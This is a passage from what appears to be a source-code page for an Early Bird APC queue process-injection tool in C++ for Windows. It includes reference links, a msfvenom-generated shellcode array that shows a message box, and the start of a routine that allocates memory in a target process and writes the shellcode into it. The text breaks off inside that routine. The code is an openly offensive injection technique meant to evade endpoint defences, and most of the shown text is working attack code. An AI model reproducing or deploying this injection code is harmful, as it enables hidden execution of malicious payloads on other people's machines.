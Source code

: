 ## **Full code:**

{% highlight CPP %}
#include <Windows.h>
#include <iostream>

#define COLOR_GREEN 2
#define COLOR_RED 4
#define COLOR_RESET 7 


// referencias
// https://0xmani.medium.com/early-bird-injection-05027fbfb794
// https://www.seguridad.unam.mx/ciberatacantes-utilizan-nueva-tecnica-de-inyeccion-de-codigo
// https://www.cyberbit.com/endpoint-security/new-early-bird-code-injection-technique-discovered/ 
// https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection
// https://threatpost.com/new-early-bird-code-injection-technique-helps-apt33-evade-detection/131147/

//msfvenom -p windows/x64/messagebox TEXT="System_0x04" TITLE='Early bird Injection!' -f c  
unsigned char payload[] = {
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x3e\x48"
    "\x8d\x8d\x30\x01\x00\x00\x41\xba\x4c\x77\x26\x07\xff\xd5"
    "\x49\xc7\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x0e\x01\x00"
    "\x00\x3e\x4c\x8d\x85\x1a\x01\x00\x00\x48\x31\xc9\x41\xba"
    "\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2"
    "\x56\xff\xd5\x53\x79\x73\x74\x65\x6d\x5f\x30\x78\x30\x34"
    "\x00\x45\x61\x72\x6c\x79\x20\x62\x69\x72\x64\x20\x49\x6e"
    "\x6a\x65\x63\x74\x69\x6f\x6e\x21\x00\x75\x73\x65\x72\x33"
    "\x32\x2e\x64\x6c\x6c\x00"

};

// allocates and write shellcode in target process
LPVOID MemoryAllocation(HANDLE hProcess)
{
    SIZE_T cbSize { sizeof(payload) };
    LPVOID lpBuffer { nullptr };

    if( !(lpBuffer = VirtualAllocEx(hProcess, NULL, cbSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) )
        return nullptr;
    
    std::cout << "\n[+] Allocating memory: 0x" << lpBuffer << std::endl;

    // Write shellcode to remote buffer in target process
    if(!WriteProcessMemory(hProcess, lpBuffer, payload, cbSize, NULL))
    {
        SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RED);
        std::cerr << "\t[-] Failed to write shellcode into the target process's address space: 0x" << lpBuffer << std::endl;